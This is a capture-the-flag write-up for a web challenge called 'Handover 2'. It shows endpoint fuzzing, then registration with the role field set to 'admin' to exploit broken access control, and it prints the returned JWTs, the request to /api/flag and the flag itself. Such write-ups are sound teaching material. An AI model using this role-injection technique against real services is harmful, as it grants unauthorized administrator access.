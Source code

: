 #### Handover 2 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e89a29d8-47c0-478c-9d00-4d85cbf0c7d2)

Going over to the url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70154cbc-d2bf-4099-bc20-b76d8a6c391e)

I then decided to fuzz for endpoints using feroxbuster and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a414916b-9db4-4638-9d9a-0f99ec945340)

We have three endpoints

```
/api/register
/api/login
/api/flag
```

When I tried accessing `/api/flag` I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/10a38899-ea71-4a1a-a12f-a2e13cad5cf6)

To register I first accessed `/api/register` as a `GET` request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe3854fa-d7b2-4351-8d74-c529492fc9e6)

So that's the parameter required to register

I used burp to do this

Let us register a user
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/94e202e0-7178-4ff3-a04c-372f0e49da8f)

We can now login
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a8e0e5de-38fe-481c-8857-274a77651f68)

```json
{
"email":"root@root.com",
"firstName":"pwner",
"lastName":"haxor",
"role":"user",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InJvb3RAcm9vdC5jb20iLCJpYXQiOjE2ODkxNzY2MzksImV4cCI6MTY4OTE4MDIzOX0.3TPesuZVJ6A5uP4MgGeVzLaVK7wdgIc_RLXa48XWke0"
}
```

Looking at the json response formed we see that role is set to `user` 

We can try to register a user again and set role to `admin`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dc29ce8a-ae76-4017-b7c2-552202c821aa)

When I logged in it showed this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0f7ac8b9-020e-4d03-a6b7-24d1f33f3c4b)

```json
{
"email":"root@root.io",
"firstName":"pwned",
"lastName":"pwned",
"role":"admin",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InJvb3RAcm9vdC5pbyIsImlhdCI6MTY4OTE3Njc3MSwiZXhwIjoxNjg5MTgwMzcxfQ.kDURYuKEuIR1NF2ht-F2R1Zv9sGE5_PLTJjnWv3zNdo"
}
```

It worked and this confirmed a broken access control vulnerability

I can now get the flag using the json web token
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09494277-3424-406c-a1d5-fd3792fa2468)

```r
GET /api/flag HTTP/1.1
Host: 143.198.98.92:9092
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InJvb3RAcm9vdC5pbyIsImlhdCI6MTY4OTE3Njc3MSwiZXhwIjoxNjg5MTgwMzcxfQ.kDURYuKEuIR1NF2ht-F2R1Zv9sGE5_PLTJjnWv3zNdo


```

And I got the flag

```
Flag: csean-ctf{Joan!I_told_you_not_TO_trust_us3r_inputs_buh_YOU_NEVER_LISTEN!}
```
